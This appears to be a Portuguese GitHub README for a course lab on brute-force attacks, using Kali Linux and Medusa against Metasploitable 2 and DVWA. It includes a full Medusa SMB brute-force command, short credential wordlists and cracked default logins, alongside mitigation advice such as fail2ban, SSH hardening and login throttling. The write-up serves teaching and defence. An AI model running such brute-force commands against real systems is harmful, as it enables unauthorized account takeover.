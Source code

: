 # 🔐 Projeto DIO: Ataques de Força Bruta com Kali Linux e Medusa

## 📖 Descrição do Projeto
Implementação prática de cenários de ataques de força bruta utilizando **Kali Linux** e **Medusa** contra ambientes vulneráveis (**Metasploitable 2** e **DVWA**), com documentação completa dos procedimentos e medidas de mitigação.

> ⚠️ **AVISO LEGAL**: Este projeto foi realizado em ambiente controlado para fins educacionais. Todas as técnicas devem ser usadas apenas em sistemas onde você tem autorização explícita.

## 🎯 Objetivos do Desafio

- [x] Configurar ambiente de laboratório com VMs
- [x] Executar ataques de força bruta em múltiplos serviços
- [x] Documentar procedimentos e resultados
- [x] Propor medidas de mitigação
- [x] Compartilhar conhecimento adquirido

## 🛠️ Tecnologias Utilizadas

- **Kali Linux** - Sistema de penetração
- **Medusa** - Ferramenta de força bruta
- **Metasploitable 2** - Ambiente vulnerável
- **DVWA** - Aplicação web vulnerável
- **VirtualBox** - Virtualização
- **Bash Scripting** - Automação

## 🏗️ Configuração do Ambiente

### Topologia da Rede:

    Kali Linux (Atacante)
    ↓
    VirtualBox Host-Only Network
    ↓  
    Metasploitable 2 (Alvo)
        ├── FTP (porta 21)
        ├── SSH (porta 22) 
        ├── HTTP/DVWA (porta 80)
        └── SMB (porta 445)


# ⚔️ Ataques Realizados
## 1. 🗂️ Ataque FTP (Porta 21)

| **Ataque:** | **Logs do ataque simples:**
| --- | --- |
| ![Medusa Ataque FTP](screenshots/medusaFtp.png) | ![Medusa FTP](screenshots/logsFtpSimples.png) |

| **Validação de Acesso:** |
| --- | 
| ![valifacaoAcesso](screenshots/ftpSucesso.png) |


Wordlists:

    # ftp_users.txt
    msfadmin
    admin
    root
    anonymous
    test
    user

    # ftp_passwords.txt  
    msfadmin
    password
    123456
    admin
    12345

Resultado:

    ✅ ACCOUNT FOUND: [ftp] Host: 192.168.122.128 User: msfadmin Password: msfadmin [SUCCESS]

## 2. 🌐 Ataque HTTP/DVWA (Porta 80)

| **Comando em Execução:** | **Logs do ataque:** |
| --- | --- |
| ![Medusa DVWA](screenshots/medusaDvwa.png) | ![DVWA Logs](screenshots/dvwaLogs.png) |


## 3. 💻 Ataque SMB (Porta 445)

| **Ataque em Andamento:** | **Descoberta de Compartilhamentos:**
| --- | --- |
| ![Medusa SMB](screenshots/medusaSmb.png) | ![SMB Shares](screenshots/validaçaoSmb.png) |

| **Acesso Confirmado:** |
| --- |
| ![SMB Access](screenshots/validaçao2Smb.png) |


Comando:

    medusa -h 192.168.122.128 -U wordlists/smb_users.txt -P wordlists/smb_passwords.txt -M smbnt -t 2 -f -O logs/smb_attack.log


Resultado:

    ✅ ACCOUNT FOUND: [smbnt] Host: 192.168.122.128 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]


📊 Resultados Obtidos
Serviço	Credenciais Comprometidas	Nível de Acesso	Tempo
FTP	1	Usuário normal	~30s
HTTP/DVWA	5	Aplicação web	~45s
SMB	1	Acesso ADMIN	~60s
Estatísticas

    - Total de credenciais comprometidas: 3

    - Serviços vulneráveis: 3

    - Taxa de sucesso: 100% nos serviços testados


# 🛡️ Medidas de Mitigação
Para Administradores de Sistema

## 🔒 FTP

    # Instalar e configurar fail2ban
    sudo apt install fail2ban

    # /etc/fail2ban/jail.local
    [vsftpd]
    enabled = true
    maxretry = 3
    bantime = 600


## 🔒 SSH

    # /etc/ssh/sshd_config
    PasswordAuthentication no
    PubkeyAuthentication yes
    PermitRootLogin no
    MaxAuthTries 3

## 🔒 Políticas de Senha

- Implementar senhas complexas (mínimo 12 caracteres)
- Exigir alteração periódica
- Bloquear contas após 5 tentativas falhas


## 🔒 DVWA/Formulários de Login

    <?php
    // Implementar CAPTCHA
    // Limitar tentativas por IP
    // Atraso progressivo entre tentativas
    session_start();

    if (!isset($_SESSION['login_attempts'])) {
        $_SESSION['login_attempts'] = 0;
    }

    if ($_SESSION['login_attempts'] >= 3) {
        sleep(pow(2, $_SESSION['login_attempts'] - 3));
    }
    ?>


## 📁 Estrutura do Projeto

    projetoForçaBruta/
    ├── 📄 README.md
    ├── 📁 wordlists/
    │   ├── ftp_users.txt
    │   ├── ftp_passwords.txt
    │   ├── dvwa_users.txt
    │   ├── dvwa_passwords.txt
    │   ├── smb_users.txt
    │   └── smb_passwords.txt
    ├── 📁 logs/
    │   ├── ftp_attack.log
    │   ├── dvwa_attack.log
    │   └── smb_attack.log
    └── 📁 screenshots/
        ├── ftp_success.png
        ├── dvwa_access.png
        └── smb_admin_access.png


## 📄 Licença

Este projeto está sob a licença MIT. Veja o arquivo LICENSE para detalhes.
